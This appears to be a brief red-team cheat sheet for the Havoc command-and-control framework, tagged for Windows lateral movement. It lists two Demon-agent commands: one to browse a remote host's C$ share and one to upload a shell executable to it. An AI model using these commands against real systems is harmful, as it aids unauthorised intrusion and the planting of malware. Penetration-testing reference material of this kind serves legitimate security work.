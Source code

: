 # Havoc

Search Tag(s): #lateral-movement #havoc #windows

## 01 - List Files and Directories

`Demon » dir \\<IP>\c$`

## 02 - Upload Files

`Demon » upload /path/to/shell.exe\\<IP>\c$\shell.exe`
